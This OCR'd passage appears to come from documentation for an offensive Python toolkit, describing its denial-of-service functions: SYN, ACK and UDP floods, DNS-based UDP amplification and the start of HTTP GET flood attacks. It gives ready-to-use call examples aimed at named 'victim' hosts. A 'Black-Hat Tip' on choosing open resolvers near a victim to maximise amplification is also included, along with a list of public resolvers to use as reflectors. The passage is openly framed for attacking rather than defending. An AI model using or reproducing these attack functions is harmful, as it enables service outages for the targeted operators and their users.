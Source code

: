 **What it does:**
Opens TCP SYN handshakes without completing them, consuming half-open slots.

**Example – SYN Storm:**

```python
# Massive SYN flood on SSH port:
DOS.Layer4.syn_flood("victim.example.com", port=22, threads=50, always=True)

# Controlled SYN flood:
DOS.Layer4.syn_flood("192.168.0.20", port=80, threads=10, pps=200, always=False)
```

#### `ack_flood(target: str, port: int = 80, threads: int = 10, pps: int = 100, always: bool = True)`

**What it does:**
Placeholder invoking SYN flood. True ACK flood requires crafting raw ACK packets.

#### `udp_flood(target: str, port: int = 53, threads: int = 10, pps: int = 200, always: bool = True)`

**What it does:**
Floods UDP port (default DNS) with random payloads.

**Example – DNS UDP Blast:**

```python
DOS.Layer4.udp_flood("dns.victim.net", port=53, threads=20, pps=500)
```

#### `udp_amplification(reflectors: List[str], threads: int = 5, pps: int = 50, always: bool = True)`

**What it does:**
Sends small DNS queries to open resolvers, triggers large responses back to victim.

**Black‑Hat Tip:** Use open resolvers near the victim’s network for maximum effect.

**Example – Amplify:**

```python
reflectors = ["8.8.8.8", "1.1.1.1", "9.9.9.9"]
DOS.Layer4.udp_amplification(reflectors, threads=10, pps=100, always=False)
```

---

### 29.3 Layer7 – Application Layer Attacks

> Attack HTTP services directly via GET/POST, Slowloris, HULK.

* **Cross‑Platform:** ✅

#### `http_get_flood(url: str, threads: int = 50, duration: int = 30, headers: Optional[dict] = None, always: bool = True)`
